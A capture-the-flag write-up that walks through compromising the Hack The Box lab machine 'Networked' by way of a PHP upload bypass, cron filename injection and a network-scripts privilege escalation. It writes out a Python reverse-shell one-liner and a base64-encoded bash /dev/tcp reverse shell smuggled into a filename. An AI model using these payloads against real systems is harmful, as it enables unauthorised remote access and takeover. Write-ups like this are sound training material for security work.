# Networked (`10.10.10.146`)

## Summary

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `networked.htb` to `10.10.10.146`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports networked.htb

```



```bash
$ gobuster dir -u http://networked.htb -w /home/kali/OSCP/tools/wordlists/merged.txt -s 200,204,301,302,307,403,500 --timeout 15s -e -k -x "txt,html,php,asp,aspx,jsp" -t 30 -o gobuster_80.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://networked.htb
[+] Threads:        30
[+] Wordlist:       /home/kali/OSCP/tools/wordlists/merged.txt
[+] Status codes:   200,204,301,302,307,403,500
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,asp,aspx,jsp,txt
[+] Expanded:       true
[+] Timeout:        15s
===============================================================
2021/01/17 04:12:12 Starting gobuster
===============================================================
http://networked.htb/backup (Status: 301)
http://networked.htb/cgi-bin/ (Status: 403)
http://networked.htb/cgi-bin/.html (Status: 403)
http://networked.htb/.hta (Status: 403)
http://networked.htb/.hta.php (Status: 403)
http://networked.htb/.hta.asp (Status: 403)
http://networked.htb/.hta.aspx (Status: 403)
http://networked.htb/.hta.jsp (Status: 403)
http://networked.htb/.hta.txt (Status: 403)
http://networked.htb/.hta.html (Status: 403)
http://networked.htb/.htaccess (Status: 403)
http://networked.htb/.htaccess.txt (Status: 403)
http://networked.htb/.htaccess.html (Status: 403)
http://networked.htb/.htaccess.php (Status: 403)
http://networked.htb/.htaccess (Status: 403)
http://networked.htb/.htaccess.asp (Status: 403)
http://networked.htb/.htaccess.txt (Status: 403)
http://networked.htb/.htaccess.html (Status: 403)
http://networked.htb/.htaccess.aspx (Status: 403)
http://networked.htb/.htaccess.php (Status: 403)
http://networked.htb/.htaccess.jsp (Status: 403)
http://networked.htb/.htaccess.asp (Status: 403)
http://networked.htb/.htaccess.aspx (Status: 403)
http://networked.htb/.htaccess.jsp (Status: 403)
http://networked.htb/.htpasswd (Status: 403)
http://networked.htb/.htpasswd.php (Status: 403)
http://networked.htb/.htpasswd.asp (Status: 403)
http://networked.htb/.htpasswd.aspx (Status: 403)
http://networked.htb/.htpasswd.jsp (Status: 403)
http://networked.htb/.htpasswd.txt (Status: 403)
http://networked.htb/.htpasswd.html (Status: 403)
http://networked.htb/.htpasswd (Status: 403)
http://networked.htb/.htpasswd.php (Status: 403)
http://networked.htb/.htpasswd.asp (Status: 403)
http://networked.htb/.htpasswd.aspx (Status: 403)
http://networked.htb/.htpasswd.jsp (Status: 403)
http://networked.htb/.htpasswd.txt (Status: 403)
http://networked.htb/.htpasswd.html (Status: 403)
http://networked.htb/index.php (Status: 200)
http://networked.htb/index.php (Status: 200)
http://networked.htb/lib.php (Status: 200)
http://networked.htb/photos.php (Status: 200)
http://networked.htb/photos.php (Status: 200)
http://networked.htb/upload.php (Status: 200)
http://networked.htb/uploads (Status: 301)
===============================================================
2021/01/17 04:53:26 Finished
===============================================================
```







I analyze the source code and find an image upload page: `/upload.php`. It has two checks for file uploads:

1. `MIME` type must start with `image/`.
2. File must have an extension of: .jpg, .png, .gif, .jpeg

Here is the relevant code:


```php
// upload.php
...
// CHECK 1: MIME type must start with "image/". 'tmp_name' part doesn't seem relevant.
if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
    echo '<pre>Invalid image file.</pre>';
    displayform();
}

...
// CHECK 2: Must have an extension of: .jpg, .png, .gif, .jpeg

//$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
list ($foo,$ext) = getnameUpload($myFile["name"]);
$validext = array('.jpg', '.png', '.gif', '.jpeg');
$valid = false;
foreach ($validext as $vext) {
    if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
    $valid = true;
    }
}
...
```

```php
// lib.php 
...
function file_mime_type($file) {
  $regexp = '/^([a-z\-]+\/[a-z0-9\-\.\+]+)(;\s.+)?$/';
  if (function_exists('finfo_file')) {
    $finfo = finfo_open(FILEINFO_MIME);
    if (is_resource($finfo)) // It is possible that a FALSE value is returned, if there is no magic MIME database file found on the system
    {
      $mime = @finfo_file($finfo, $file['tmp_name']);
      finfo_close($finfo);
      if (is_string($mime) && preg_match($regexp, $mime, $matches)) {
        $file_type = $matches[1];
        return $file_type;
      }
    }
  }
  if (function_exists('mime_content_type'))
  {
    $file_type = @mime_content_type($file['tmp_name']);
    if (strlen($file_type) > 0) // It's possible that mime_content_type() returns FALSE or an empty string
    {
      return $file_type;
    }
  }
  return $file['type'];
}

function check_file_type($file) {
  $mime_type = file_mime_type($file);
  if (strpos($mime_type, 'image/') === 0) {
      return true;
  } else {
      return false;
  }  
}
...
```

I embed a PHP shell inside of a JPG image.



I upload it at `/upload.php`.









I view the source and find the path of the image on the site: `/uploads/10_10_14_10.php.jpg`.



I navigate to `http://networked.htb/uploads/10_10_14_10.php.jpg?cmd=uname%20-a` and see evidence of command execution.



## Reverse Shell

I start a `nc` listener on port 443.

I navigate to `http://networked.htb/uploads/10_10_14_10.php.jpg?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.10%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`, which executes `$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` on the target.


## Upgrading Shell



## Privilege Escalation to `guly`

In `/home/guly`, I find the following files:

```bash
bash-4.2$ ls
check_attack.php  crontab.guly  user.txt

bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php

bash-4.2$ cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```



I construct this payload: `$ touch "/var/www/html/uploads/; echo YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEwLzQ0MyAwPiYxCg== | base64 -d | bash ;"`





I wait, and get a shell at my listener.


## Privilege Escalation to `root`






```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```

I use this exploit technique: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#writable-etcsysconfignetwork-scripts-centosredhat

I generate a reverse shell with `msfvenom`.



I run a python webserver, move the file over and make it executable.




I start a `nc` listener and run the exploit.





## Root
